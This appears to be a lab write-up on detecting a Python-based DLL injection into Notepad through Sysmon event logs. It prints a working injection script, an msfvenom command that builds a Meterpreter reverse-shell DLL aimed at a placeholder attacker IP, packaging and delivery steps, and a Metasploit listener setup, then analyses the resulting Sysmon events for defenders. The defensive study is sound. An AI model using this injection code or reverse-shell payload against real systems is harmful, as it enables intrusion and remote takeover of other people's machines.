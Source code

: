 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```
![Image](https://github.com/user-attachments/assets/8654a2ea-66e0-465f-bfb9-918f40ed46b8)

ON THE TARGET MACHINE:

![Image](https://github.com/user-attachments/assets/b5750b38-2ac5-400a-9140-10c168948a44)
---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Creation

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

### Event ID 13: Registry Modification

```
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows security defenses or a code error.  
To proceed with the Sysmon log analysis, I created a simpler malware sample whose only purpose was to initiate a remote connection.

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ##.##.##.##
set LPORT 4444
run
```


![Image](https://github.com/user-attachments/assets/654d581d-448b-41fd-9989-a6007542fccf)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: ##.##.##.#
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab demonstrates that even basic malware leaves detectable traces in Sysmon logs.  
Events such as process creation, registry modification, and network activity are powerful indicators for defenders.  
Despite some execution challenges, the experiment shows the effectiveness of endpoint monitoring and highlights the importance of log analysis for incident detection.
